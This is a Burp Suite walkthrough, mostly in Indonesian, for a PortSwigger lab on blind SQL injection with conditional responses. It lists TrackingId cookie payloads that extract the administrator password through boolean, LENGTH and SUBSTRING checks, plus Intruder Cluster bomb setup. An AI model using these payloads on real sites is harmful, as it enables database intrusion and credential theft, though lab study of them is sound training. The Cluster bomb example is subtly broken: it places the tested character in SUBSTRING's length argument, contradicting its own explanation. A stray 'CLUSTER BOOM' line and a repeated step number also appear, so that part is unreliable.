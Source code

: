 
# Blind SQL injection with conditional responses

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Hint: You can assume that the password only contains lowercase, alphanumeric characters.

---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection/blind

- https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------



Berikut langkah sederhana untuk menyelesaikan lab **"Injeksi SQL buta dengan respons bersyarat"** menggunakan **Burp Suite**:

---

### **Langkah 1: Persiapan**
1. **Buka lab** dan gunakan Burp Suite sebagai proxy.
2. Arahkan browser ke halaman depan aplikasi lab.
3. **Aktifkan intercept** di Burp Suite dan tangkap permintaan HTTP yang berisi cookie `TrackingId`.

---

### **Langkah 2: Verifikasi Kerentanan**
1. **Uji kondisi boolean sederhana:**
   - Modifikasi nilai cookie `TrackingId` menjadi:
     - **`TrackingId=xyz' AND '1'='1`** → Cek apakah muncul pesan "Welcome back".
     - **`TrackingId=xyz' AND '1'='2`** → Cek apakah pesan "Welcome back" hilang.
   - Jika respons sesuai dengan kondisi di atas, aplikasi rentan terhadap injeksi SQL.

2. **Uji keberadaan tabel `users`:**
   - Modifikasi nilai cookie menjadi:
     - **`TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`**
   - Jika pesan "Welcome back" muncul, tabel `users` ada.

3. **Uji keberadaan pengguna `administrator`:**
   - Modifikasi nilai cookie menjadi:
     - **`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`**
   - Jika pesan "Welcome back" muncul, pengguna `administrator` ada.

---

### **Langkah 3: Cari Panjang Kata Sandi**
1. Modifikasi cookie untuk memeriksa panjang kata sandi:
   - **`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`**
2. Lanjutkan dengan mengubah angka `1` menjadi `2`, `3`, dan seterusnya hingga pesan "Welcome back" tidak muncul lagi.
3. Catat panjang kata sandi saat kondisi tidak lagi benar (misalnya, 20 karakter).

---

### **Langkah 4: Ekstraksi Karakter Kata Sandi**
1. Kirim permintaan ke **Burp Intruder**:
   - Modifikasi cookie untuk mengeksploitasi posisi pertama kata sandi:
     - **`TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a`**
   - Gunakan tanda muatan di sekitar karakter target (`a`):
     - **`TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`**
2. Atur **muatan**:
   - Di tab **Payload**, pilih **Simple list**.
   - Masukkan semua karakter alfanumerik (`a-z`, `0-9`) sebagai muatan.
3. Atur **grep**:
   - Di tab **Grep - Match**, tambahkan kata kunci **"Welcome back"**.
4. Luncurkan serangan untuk menemukan karakter pertama.

5. Ulangi langkah ini untuk setiap posisi karakter:
   - Ubah offset substring, misalnya untuk posisi kedua:
     - **`TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§`**
   - Lakukan hingga semua karakter password ditemukan.

---
**Cluster Bomb** di Burp Suite Intruder memungkinkan Anda menguji beberapa kombinasi payload di berbagai posisi. Berikut panduan langkah-langkah untuk menggunakannya dalam skenario **SQL Injection** pada cookie `TrackingId`:

---

### **Langkah 1: Kirim Permintaan ke Intruder**
1. **Tangkap permintaan dengan cookie** `TrackingId` di Burp Suite (via Intercept).
2. Klik kanan pada permintaan yang tertangkap dan pilih **"Send to Intruder"**.

---

### **Langkah 2: Atur Target dan Posisi**
1. **Target**:
   - Buka tab **Intruder** → **Target**.
   - Pastikan alamat **Host** dan **Port** sudah benar.

2. **Posisi**:
   - Buka tab **Positions**.
   - Di bagian payload, tambahkan tanda **§** di sekitar variabel atau nilai yang ingin diuji.
   - Contoh:
     ```
     TrackingId=xyz' AND (SELECT SUBSTRING(password,§1§,§2§) FROM users WHERE username='administrator')='a
     ```
     - **§1§**: Offset posisi karakter dalam password.
     - **§2§**: Karakter yang akan diuji.
   - Pastikan mode **Attack type** diatur ke **Cluster bomb**.

---
CLUSTER BOOM

### **Langkah 3: Atur Payload**
1. **Payload Set 1 (Offset posisi)**:
   - Pilih tab **Payloads**.
   - Pada **Payload set** pilih **1**.
   - Masukkan angka **1** hingga panjang password yang telah Anda tentukan.
     - Contoh: Jika panjang password adalah 20, masukkan angka 1–20.

2. **Payload Set 2 (Karakter password)**:
   - Pilih **Payload set** kedua.
   - Tambahkan karakter alfanumerik yang mungkin ada dalam password:
     - `a-z` dan `0-9`.
   - Anda bisa menggunakan menu **Add from list** untuk menambahkannya secara otomatis.

---

### **Langkah 4: Atur Grep**
1. Di tab **Options**, cari bagian **Grep - Match**.
2. Tambahkan pola **"Welcome back"** untuk mendeteksi respons yang sesuai.

---

### **Langkah 5: Luncurkan Cluster Bomb**
1. Klik tombol **Start Attack**.
2. Perhatikan hasil di tab **Intruder**:
   - Cari kombinasi payload di mana kolom **Welcome back** mencentang.
   - Payload di **Set 1** menunjukkan posisi karakter.
   - Payload di **Set 2** menunjukkan nilai karakter pada posisi tersebut.

---

### **Langkah 6: Rekonstruksi Password**
1. Ulangi langkah ini hingga semua posisi password diuji.
2. Gabungkan hasil dari setiap posisi untuk membentuk password lengkap.



### **Langkah 5: Login sebagai Administrator**
1. Gunakan kata sandi yang telah ditemukan.
2. Akses halaman login, masukkan:
   - **Username:** `administrator`
   - **Password:** hasil injeksi SQL.
3. Login untuk menyelesaikan lab.

---

